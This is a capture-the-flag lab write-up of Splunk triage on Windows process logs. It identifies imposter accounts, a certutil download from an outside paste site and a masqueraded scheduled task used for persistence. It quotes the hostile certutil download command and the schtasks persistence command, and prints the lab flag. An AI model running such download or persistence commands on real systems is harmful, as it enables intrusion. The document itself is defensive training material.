









# Imposter Accounts and LoLBin Abuse: Process Execution Triage on a Compromised HR Segment

## Environment

**Platform:** TryHackMe - SIEM Triage for SOC Module  
**Room:** Benign  
**SIEM:** Splunk  
**Index:** `win_eventlogs`  
**Log Source:** Windows Security Event Log - Event ID 4688 (Process Creation)  
**Domain:** `cybertees.local`

---

## Scenario

An IDS alert flagged potentially suspicious process execution on one or more hosts within the HR department of a segmented corporate network. The indicators cited were network information gathering tools and scheduled task manipulation. Due to limited collection capability, only process creation logs (Event ID 4688) were available for analysis - no network telemetry, no file system events, no EDR data.

The objective was to enumerate all active accounts against the known user roster, identify any imposter accounts operating in the environment, trace the payload download event to its LoLBin and C2 source, reconstruct the persistence mechanism established post-compromise, and produce an actionable escalation. This mirrors real L1 triage work where a single IDS alert, combined with a constrained log set, must be interrogated methodically to uncover a multi-stage intrusion spanning two hosts and multiple accounts.

---

## Tools and Technologies

- Splunk (SPL)
- Windows Security Event Log, Event ID 4688
- lolbas-project.github.io (LoLBin reference)

---

## Alert Queue Overview

| Timestamp | Alert | Source | Severity | Initial Assessment |
|-----------|-------|---------|----------|--------------------|
| March 2022 | Suspicious process execution - HR host | IDS | Medium | Scheduled task and recon tooling flagged on HR segment |

The alert cited two behavioural categories: network information gathering and scheduled task execution. With only process creation logs available, the entire investigation had to be driven from `CommandLine` field analysis. The working hypothesis before opening Splunk: one or more HR accounts were either compromised or impersonated, a payload was staged using a Windows built-in binary, and persistence was established via a scheduled task. The user roster provided in the alert context - HR (Haroon, Chris, Diana), IT (James, Moin, Katrina), Marketing (Bell, Amelia, Deepak) - was the critical baseline against which every account in the logs had to be verified.

---

## Lab Content

### Phase 1: Environment Orientation and Imposter Detection

The first query in any investigation involving a known user population is account enumeration. Before filtering for suspicious behaviour, establish who is actually present in the data and cross-reference against the authorised roster.

```splunk
index=win_eventlogs
| stats count by UserName
| sort - count
```



The query returned 11 unique `UserName` values across 13,959 events for March 2022. Reading each value discretely against the known roster immediately revealed two anomalies.

The field inspector view confirms the top 10 values by event count, with `Chris.fort` appearing at position six with 1,130 events - volume consistent with a full user session, not a one-off execution.

**Imposter account 1: `Chris.fort`**  
The legitimate HR user is `Chris`. The account `Chris.fort` follows a firstname.lastname convention that is common in corporate Active Directory environments, making it visually plausible at a glance. It is not on the authorised roster. An account mimicking a legitimate user's naming pattern, with over a thousand process creation events across March, is operating with persistent access.

**Imposter account 2: `Amel1a`**  
The legitimate Marketing user is `Amelia`. The account `Amel1a` substitutes the numeral `1` for the letter `i`. This substitution is visually identical to the legitimate account in most log table fonts when scanning quickly. It only becomes detectable when each `UserName` value is read as a discrete string - exactly what `stats count by UserName` forces you to do. Scanning raw log rows for anomalies would almost certainly miss this.

The hostname distribution was also verified at this stage.

```splunk
index=win_eventlogs
| stats count by HostName
| sort - count
```



Nine hostnames across three segments: HR_01, HR_02, HR_03, IT_01, IT_02, IT_03, Admin_01, Admin_02, Admin_03. Event distribution is even across all hosts, consistent with normal activity. No rogue hostnames present.

---

### Phase 2: Scheduled Task Hunt on the HR Segment

The IDS alert specifically flagged scheduled task activity. Scoping the hunt to HR hostnames and filtering on the scheduled task binary narrows immediately to the relevant activity.

```splunk
index=win_eventlogs "schtasks" HostName="HR*"
| table UserName HostName ProcessName CommandLine
| sort + _time
```



The results show IT users (Katrina, Moin, James) running `schtasks.exe` on HR machines with command lines limited to `/change`, `/delete`, and `/query` against Microsoft Office and Windows telemetry tasks. These are consistent with IT staff performing routine task maintenance across managed endpoints and do not warrant escalation on their own.

One entry stands out immediately: `Chris.fort` on `HR_02` with a `/create` command.

To isolate and inspect the full event:

```splunk
index=win_eventlogs "OfficUpdater"
| table UserName HostName ProcessName CommandLine
```



Single result. The raw event confirms all fields:



```
EventTime:    2022-03-06T14:23:40Z
UserName:     Chris.fort
HostName:     HR_02
ProcessName:  C:\Windows\System32\schtasks.exe
CommandLine:  /create /tn OfficUpdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart
```

Breaking down the command:

| Parameter | Value | Significance |
|-----------|-------|--------------|
| `/create` | - | Creates a new scheduled task |
| `/tn OfficUpdater` | Task name | Misspelled - masquerading as a legitimate Office maintenance task |
| `/tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe"` | Task action | Binary staged in AppData\Local\Temp, a user-writable directory not subject to the same scrutiny as Program Files or System32 |
| `/sc onstart` | Trigger | Executes on every system boot - persistence survives reboots and user logoffs |

The task name `OfficUpdater` drops one `e` from `Office`. This is a common masquerading pattern: task names that appear in the Task Scheduler UI and look legitimate to anyone not reading carefully. Combined with the Temp folder staging path and the boot trigger, this is a textbook persistence mechanism planted by an imposter account on an HR machine two days after the initial payload download.

---

### Phase 3: Timeline Reconstruction Around the Persistence Event

With a confirmed malicious timestamp at `2022-03-06 14:23:40`, the time window around it can be bracketed directly rather than paginating through thousands of results. In Splunk, `earliest` and `latest` are base search parameters, not pipeline filters - they go before the first pipe.

```splunk
index=win_eventlogs UserName="Chris.fort" earliest="03/06/2022:13:50:00" latest="03/06/2022:15:00:00"
| table _time UserName HostName ProcessName CommandLine
| sort + _time
```

The session timeline for `Chris.fort` on `HR_02` on 2022-03-06:



The malicious `schtasks` command is a single entry embedded in a realistic HR user workday: SAP, Outlook, Microsoft Access opening accounting databases from a network share, PowerPoint, Citrix, Chrome. This is deliberate. The imposter account was generating plausible cover activity consistent with what a legitimate HR employee would produce. Without the IDS alert as an anchor and the account enumeration step to flag `Chris.fort` as an imposter, this session would blend into baseline noise in a casual log review.

---

### Phase 4: LoLBin Download Identification

The `schtasks` command references `update.exe` already present in `C:\Users\Chris.fort\AppData\Local\Temp\`. Something downloaded and staged that binary before the persistence task could reference it. With only process creation logs available, the download mechanism had to be found in `CommandLine` fields containing URL patterns or known LoLBin download flags. A quick look into the LOLBAS project github gave me a rough idea of the binaries the attacker could've used to download the executable (certutil, bitsadmin,powershell, mshta, urlcache, transfer, http), so I used these binaries as filters.

The search was run across all users rather than scoping to `Chris.fort` alone. Download activity and persistence activity are frequently attributed to different accounts in multi-stage intrusions, and filtering by username before confirming the actor would risk missing the event entirely.

```splunk
index=win_eventlogs
| search CommandLine="*certutil*" OR CommandLine="*bitsadmin*" OR CommandLine="*powershell*" OR CommandLine="*mshta*" OR CommandLine="*urlcache*" OR CommandLine="*transfer*" OR CommandLine="*http*"
| table _time UserName ProcessName CommandLine
| sort + _time
```



Single result across the entire March dataset. The full event:



```
EventTime:    2022-03-04T10:38:28Z
UserName:     haroon
HostName:     HR_01
ProcessName:  C:\Windows\System32\certutil.exe
CommandLine:  certutil.exe -urlcache -f https://controlc.com/e4d11035 benign.exe
```

`haroon` is a legitimate HR user. The account was not an imposter - it was a compromised legitimate account used to execute the initial payload retrieval two days before the persistence event on HR_02.

**What `certutil.exe -urlcache -f` does:**

`certutil.exe` is a native Windows certificate management utility present on every Windows installation and signed by Microsoft. The `-urlcache` flag instructs it to interact with the URL cache subsystem. The `-f` flag forces a download, overwriting any locally cached version of the resource. The combination of these two flags allows certutil to retrieve arbitrary content from a URL and write it to a local file - a capability entirely outside its intended certificate management purpose.

Certutil is one of the most documented LoLBins in the LOLBAS project precisely because it is a trusted Microsoft binary that bypasses application whitelisting controls, is present on every Windows host, and its network activity may not trigger alerts that would fire on unknown executables making outbound connections.

The payload `benign.exe` was saved to the current working directory at the time of execution. The C2 source was `controlc.com`, a text and file sharing platform with a clean domain reputation - the same dead drop model observed with Pastebin in other campaigns. Attackers use legitimate sharing platforms as payload hosts because their domains pass reputation checks and are rarely blocked by corporate web proxies.

---

### Phase 5: C2 Content Retrieval

Visiting `https://controlc.com/e4d11035` directly in a browser retrieves the hosted file:



The paste is named `flag.txt`, posted February 17, 2024, with 37,237 views at time of access. Content:

```
THM{KJ&*H^B0}
```


## Attack Timeline

```
2022-03-04 10:38:28  haroon @ HR_01
  certutil.exe -urlcache -f https://controlc.com/e4d11035 benign.exe
  Legitimate HR account used to download payload from C2 dead drop via LoLBin
  Payload saved as benign.exe

2022-03-06 14:23:40  Chris.fort @ HR_02  [imposter account]
  schtasks.exe /create /tn OfficUpdater
  /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart
  Boot persistence established via masqueraded scheduled task on a second HR host
  Two-day gap between download and persistence suggests deliberate staging
```

---

## IOC Summary Table

| Type | Value | Notes |
|------|-------|-------|
| Account | Chris.fort | Imposter account - mimics legitimate HR user Chris |
| Account | Amel1a | Imposter account - mimics Marketing user Amelia via numeral substitution |
| Host | HR_01 | Host where payload download occurred under haroon |
| Host | HR_02 | Host where persistence was established under Chris.fort |
| Process | certutil.exe | LoLBin used for payload retrieval |
| Command | `certutil.exe -urlcache -f https://controlc.com/e4d11035 benign.exe` | Full download command |
| URL | https://controlc.com/e4d11035 | C2 dead drop hosting the payload |
| Domain | controlc.com | C2 filesharing platform |
| File | benign.exe | Payload downloaded to HR_01 |
| File | update.exe | Binary referenced in scheduled task on HR_02 |
| Path | `C:\Users\Chris.fort\AppData\Local\Temp\update.exe` | Persistence binary staging path |
| Scheduled Task | OfficUpdater | Masqueraded persistence task, trigger: onstart |
| Flag | THM{KJ&*H^B0} | Content of C2-hosted file flag.txt |

---

## MITRE ATT&CK Mapping

| Technique ID | Technique | Evidence |
|--------------|-----------|----------|
| T1078 | Valid Accounts | Legitimate account `haroon` used to execute payload download |
| T1036 | Masquerading | Imposter accounts `Chris.fort` and `Amel1a` mimicking legitimate users; task named `OfficUpdater` |
| T1105 | Ingress Tool Transfer | `certutil.exe -urlcache -f` used to retrieve `benign.exe` from external URL |
| T1218.003 | System Binary Proxy Execution: CMSTP - certutil | `certutil.exe` abused as a LoLBin for file download |
| T1053.005 | Scheduled Task/Job: Scheduled Task | `schtasks /create /sc onstart` used to establish boot persistence |
| T1027 | Obfuscated Files or Information | Payload named `benign.exe` to evade casual inspection; task named to resemble Office tooling |
| T1583.001 | Acquire Infrastructure: Domains | `controlc.com` used as C2 dead drop, leveraging legitimate platform reputation |

---

## SOC Implications

The decision to enumerate all `UserName` values against the known roster before any behavioural filtering was the pivotal step in this investigation. The `stats count by UserName` query forces every account to be read as a discrete string rather than visually scanned in a log table. The `Amel1a` imposter would almost certainly have been missed in a raw log review - the numeral substitution is only detectable when the value is read character by character in isolation. In environments with large user populations, this technique scales by using `| lookup` against an authorised account list and flagging any `UserName` values not present in it, automating the roster cross-reference and making imposter detection a reliable first-pass step rather than a manual eyeball check.

The two-day gap between the certutil download on HR_01 and the scheduled task creation on HR_02 illustrates a pattern that appears in real intrusions: initial access and persistence are not always the same event. `haroon`'s account was used for the download, but the persistence was planted under `Chris.fort` on a different host. An investigation that scoped only to the IDS-flagged account or the IDS-flagged host would have found only half the picture. Removing username filters on the LoLBin hunt query was what connected the two events. This is a practical reminder that pull-threading across all available accounts and hosts, not just the initial alert anchor, is what closes the gap between a partial finding and a complete intrusion reconstruction.

The log scope in this investigation was its most significant constraint. Process creation logs (Event ID 4688) confirmed what was executed and by whom, but they could not answer how `haroon`'s account was compromised, what `benign.exe` and `update.exe` actually do once executed, whether lateral movement occurred between HR_01 and HR_02, what `Amel1a` did during its session, or whether data left the network. These are not investigative failures - they are documented gaps that define the IR follow-up scope. In a real SOC ticket, each gap becomes a request: EDR telemetry for HR_01 and HR_02, authentication logs to identify the initial access vector for haroon, hash submissions for both binaries to threat intel. Process logs start the story; they rarely finish it.

The highest-severity finding in this investigation is not the certutil download or the scheduled task in isolation - it is the presence of two imposter accounts operating with sustained, high-volume activity across March 2022. `Chris.fort` generated 1,130 process creation events. That volume is consistent with weeks of interactive use, not a one-off test. An imposter account with that level of activity has had time to enumerate the environment, access shared resources, and potentially exfiltrate data through channels not visible in process logs alone. The immediate response priority is account disablement and forced password reset for `haroon`, followed by a full audit of every resource accessed by `Chris.fort` and `Amel1a` across all available log sources for the duration of their presence in the environment.

---

*TryHackMe - SIEM Triage for SOC Module | Benign Room*